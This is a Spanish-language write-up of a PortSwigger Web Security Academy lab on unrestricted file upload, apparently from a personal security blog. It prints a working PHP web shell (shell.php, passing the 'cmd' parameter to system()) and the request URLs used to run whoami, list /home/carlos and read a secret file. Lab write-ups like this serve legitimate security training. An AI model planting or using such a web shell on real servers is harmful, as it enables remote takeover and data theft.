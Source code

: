 ```yaml
---
title: "Remote code execution via web shell upload"
description: "Laboratorio de Portswigger sobre File Upload"
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Remote code execution via web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que no realiza `ninguna validación` en los `archivos` que los usuarios suben antes de almacenarlos en el `sistema` de `archivos` del `servidor`. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego `enviar` este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-1/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-1/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-1/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-1/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo subimos

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-1/image_5.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-1/image_6.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un archivo llamado `secret`

![](/assets/img/File-Upload-Lab-1/image_7.png)

`Leemos` la `información` de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-1/image_8.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Lab-1/image_9.png)
